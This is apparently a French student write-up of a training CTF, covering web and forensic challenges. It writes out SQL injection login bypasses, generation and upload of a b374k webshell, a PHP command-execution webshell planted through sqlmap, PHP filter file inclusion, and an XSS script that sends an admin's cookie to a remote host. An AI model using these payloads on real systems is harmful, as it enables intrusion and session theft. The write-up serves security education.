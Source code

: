 # SRS Capture The Flag
Dans le cadre de l'UV SRS à l'IMT Lille Douai, Advens nous a proposé de participé à un CTF (Capture The Flag) afin de nous former aux techniques de ethical hacking.
Ce document nous permettra d'expliquer les méthodes que nous avons employé pour résoudre les différents challenges de ce CTF. 


## Web

### Baby Web
Ce challenge commence sur une page d'authentification comprenant 2 champs : login/password. Afin de forcer le passage de cette page, nous avons utilisé une **injection SQL** en complétant l'un des champ avec le code suivant : `'OR 1=1'`.
> En effet, en supposant que la requête SQL executée du coté serveur est du type `SELECT * from admins WHERE login='$login' AND password='$password'`. Notre injection permettra d'avoir le code suivant exécuté du coté serveur et donc de forcer l'accès : `SELECT * from admins WHERE login=''OR 1=1'' AND password=whatever`.

Cela nous donne accès à une page d'upload de fichier sur le serveur. Afin de gagner un accès au serveur, nous allons injecter un shell via ce service d'upload. Nous utiliserons le webshell de  [b374k](https://github.com/b374k/b374k).
On génère un webshell grâce aux commandes suivantes : 
```
> git clone  https://github.com/b374k/b374k
> cd b374k
> php  -f  index.php  --  -o  shell.php  -p  password123
```
Il nous suffit donc du l'uploader sur le serveur pour avoir accès au serveur. Nous obtenons un shell avec les droits de l'application web. Ces droits nous permettent de mener nos investigations sur l'ensemble du serveur et notament dans le repertoire `/root` où nous trouverons le premier flag [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/babyWeb/babyWeb_4.PNG). 
```
> cat /root/flag.txt
advens{easy_baby_web}
```

### Pentester Adventures
Ce challenge nous amène sur un site bloqué par la NSA et donc non-indexé. L'indexation d'un site est géré par le fichier `robots.txt` qui est situé à la racine du site [doc](http://robots-txt.com/). Lors de la consultation de ce document, on voit que le site comprend 2 pages [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_1.PNG) : 
 - `/dict.txt` : une suite d'identifiants et de mots de passe au format texte
 - `/nsa-secure-scripts.php` : une page d'identification avec un couple login:mdp. Nous allons tenter d'utiliser le fichier `dict.txt` pour brute-forcer l'accès à cette page.

La page d'identification renvois une erreur *wrong login* lorsque le login ne correspond pas à un utilisateur connu. Nous pouvons donc supposer qu'en testant tous les identifiants, nous arrivrons à un message du type *wrong password*, et donc une taille de réponse différente.
Avec le logiciel Burp, nous allons intercepter une requête d'identification et faire varier uniquement le login en se servant du fichier `dict.txt`. On compare ensuite les tailles des réponses pour identifier le bon login [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_5.PNG). De la même manière, on peux identifier le mot de passe de la page pour arriver au coupe `qwertyui:security` [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_7.PNG). 

On accède enfin à une page qui liste 2 liens : une capture d'un ping local et un fichier de configuration php à l'adresse suivante `/nsa-secure-scripts.php?script=scripts/phpinfos.php`. En se referant à cette [documentation](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/), on injecte `php://filter/convert.base64-encode/resource=nsa-secure-scripts.php` pour inspecter le code source de la page [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_9.PNG). C'est ainsi qu'on remarque le bloc de code suivant : 
```
if(isset($_GET['cmd_shell_params'])){
	system($_GET['cmd_shell_params']);
}
```
Grâce à cette option, on peut réussir à ouvrir un shell sur le serveur cible. Ainsi, on fait une recherche sur les fichiers `*.txt` pour localiser le flag et l'afficher sur la page web [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/pentesterAdventures/pentesterAdventures_11.PNG).

### Cookie hacker
La page de ce challenge nous permet de poster des messages et donc potentiellement de tenter une attaque XSS. Nous allons tenter de voler un cookie administrateur (fichier `document.cookie`) pour pouvoir nous identifier sur la page d'administration. 
Cependant, le serveur étant en "maintenance", les messages d'injection XSS de type `<script>alert()</script>` ne sont pas envoyé par le serveur. Nous allons donc tenter d'injection un script permettant de rediriger le contenu du `document.cookie` vers un autre serveur : 
```
<script>
	document.location="https://remoteadresse" + document.cookie;
</script>
```
Grâce au site [Request Inspector](https://requestinspector.com/) nous allons pouvoir récupérer le resultat de notre script et donc récupérer le cookie administrateur. [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/cookieHacker/cookieHacker_2.PNG). Ensuite l'extension [Cookie Quick Manager](https://addons.mozilla.org/fr/firefox/addon/cookie-quick-manager/) nous permet d’éditer les cookies et d'injecter notre cookie volé. Une fois le cookie re-injecté, on obtient le flag du challenge.

### Le Blog de Michel
Ce blog interroge une base de donnée pour aller chercher ses articles grâce à une structure d'url `http://url/?page=blog&id=1`. Grâce à `sqlmap` nous allons voir s'il est possible de réaliser une injection SQL [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/web/blogMichel/blogMichel_1.PNG).

Une fois la faille SQL identifié, nous allons injecter un shell dans le serveur cible afin de pouvoir interagir avec lui. 
```
> cat /root/simpleShell.php
<?php
	if(isset($_REQUEST['cmd'])){
		echo "<pre>";
		$cmd = ($_REQUEST['cmd']);
		system($cmd);
		echo "<pre>';
		die;
	}
?>

> sqlmap -u http://blogdemichel.hackdumb.com/?page=blog\&id=1 --file-dest="../../../../../../tmp/simpleShell.php" --file-write="/root/simpleShell.php"
``` 
Grâce à ce webshell on peux interagir avec le serveur et localiser le flag dans `/home/michel`. A noter qu'on utilise l’exécutable `getflag` qui peut être exécuté par tout les utilisateurs.

## Forensic

### Simple HTTP
Cette épreuve nous met à disposition une capture de trames où 2 machines échanges des données. 
On suppose que l'une des trame doit contenir un mot de passe ou un flag. En filtrant les trames par protocole, il est facile de repérer un paquet `HTTP/POST`. En inspectant le contenu de cette trame, on trouve rapidement un fichier `flag.txt` encapsulé un paquet `MIME`.  On trouve donc le flag en clair dans cette partie de la trame [[screenshot]](https://raw.githubusercontent.com/migonidec/SRS_CTF/master/images/forensic/simpleHTTP/simpleHTTP_1.PNG).
